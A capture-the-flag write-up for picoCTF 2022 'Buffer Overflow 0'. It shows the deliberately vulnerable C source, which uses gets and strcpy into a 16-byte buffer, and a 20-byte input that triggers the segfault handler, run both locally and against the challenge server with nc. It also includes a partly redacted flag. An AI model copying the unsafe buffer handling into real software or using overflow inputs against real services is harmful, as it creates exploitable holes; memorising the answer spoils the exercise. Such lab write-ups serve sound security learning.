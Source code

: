 ```yaml
---
title: picoCTF 2022 - Buffer Overflow 0
tags: [pico22, bof, pwn]
---
```


Let's gather some information before attempting to execute the binary

```bash
$ file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=08fef67fdcc0d93019a26a2f8f97279dee848031, for GNU/Linux 3.2.0, not stripped

$ pwn checksec vuln
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can see that it's a 32 bit ELF file dinamically linked and not stripped. If we attempt to execute it, we are prompted for a text file named `flag.txt`. Let's create it and run the binary again.

```bash
$ echo "Buffer Overflow HERE" >> flag.txt

$ ./vuln
Input: zanef
The program will exit now
```

Nothing strange happens. We check the source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

There's only one function that should stands out and it's `sigsegv_handler()`. This function receives an integer and prints out the flag. We can see that in this line `sigsegv_handler()` is passed as an argument to another function named `signal()`

```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```

With a simple online search we can read that `signal()` _"sets a function to handle signal i.e. a signal handler with signal numer sig"_ and `SIGSEV` is _"a signal propagated when a program tries to read or write outside the memory it is allocated for it"_. With these two definitions we can deduce that this program, when there's an invalid storage read or write, calls the handler that prints the flag.

We have to write or read outside the program boundaries. Check the source code again and we can see that the function `vuln()` uses `strcpy()` to copy the input string into a buffer. `strcpy()` is a function vulnerable to buffer overflow so if we pass an input larger than the buffer that sould contain it, `strcpy()` will try to write it anyway and will overwrite the memory addresses after the limits.

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

We can see that in the `main()` function it's used `gets()` that is another buffer overflow vulnerable function.

```c
char buf1[100];
  gets(buf1);
```

Let's exploit `strcpy()` by feeding the program with inputs longer than 16 bytes.

```bash
$ python -c 'print "A" * 16' | ./vuln
Input: The program will exit now

$ python -c 'print "A" * 20' | ./vuln
Input: Buffer Overflow HERE
``` 

With an input of 20 bytes the program prints out the content of our `flag.txt` file. This means that the program tried to write outside its boundaries and generated a segmentation fault signal. We can confirm our assumption with this command

```bash
$ sudo dmesg
segfault at 0 ip 00007fc88e67c375 sp 00007ffec5897fd8 error 4 in libc-2.33.so[7fc88e52e000+158000] 
```

We can now exploit the remote service and get some points

```bash
$ python -c 'print "A" * 20' | nc saturn.picoctf.net 65355
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_[redacted]}
```